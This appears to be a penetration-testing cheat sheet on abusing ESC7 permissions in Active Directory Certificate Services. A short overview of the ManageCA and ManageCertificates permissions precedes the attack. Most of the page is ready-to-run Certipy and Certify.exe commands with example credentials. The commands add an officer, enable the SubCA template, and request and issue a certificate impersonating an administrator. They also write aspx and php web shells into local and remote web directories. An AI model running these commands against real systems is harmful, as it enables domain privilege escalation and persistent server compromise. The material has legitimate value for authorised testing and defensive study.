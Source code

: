 # General Overview

Certificate Authorities (CAs) are granted specific permissions to manage and secure operations. The ManageCA permission provides administrative control, allowing modifications to persistent configuration settings, such as enabling the EDITF_ATTRIBUTESUBJECTALTNAME2 flag. Conversely, the ManageCertificates permission permits the approval of pending certificate requests, which can override the need for manager approval.

# Abusing ESC7 Certificate Templates

## Scenario 1: 
If we find a user that has the Manage CA permission, we can add an Officer. This will grant us the Manage Certificates permission: 

## Certipy:
- certipy-ad ca -ca 'Vulnerable CA' -add-officer  -username afsimmons@megacorpone.com -password Spawn123!
- certipy-ad -ca -ca 'Vulnerable CA'  -enable-template SubCA -username afsimmons@megacorpone.com -password Spawn123!
If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template:

- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -ca corp-DC-CA -target ca.megacorpone.com -template SubCA -upn xadministrator@megacorpone.com
- certipy-ad ca -ca 'corp-DC-CA' -issue-request 785 -username afsimmons@megacorpone.com -password Spawn123!
- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -ca corp-DC-CA -target ca.megacorpone.com -retrieve 785
## Certify
- Certify.exe setconfig /enablesan /restart
- Certify.exe request /template:corp-DC-CA /altname:xadministrator
- Certify.exe issue /id:[REQUEST ID]
- To disable: Certify.exe setconfig /removeapproval /restart
Alternative Technique:
- Get the current CDP list. Useful to find remote writable shares:
	Certify.exe writefile /ca:SERVER\ca-name /readonly

- Write an aspx shell to a local web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

- Write the default asp shell to a local web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:c:\\inetpub\\wwwroot\\shell.aspx
- Write a php shell to a remote web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\\share\\shell.php /input:C:\\Local\\path\\shell.php

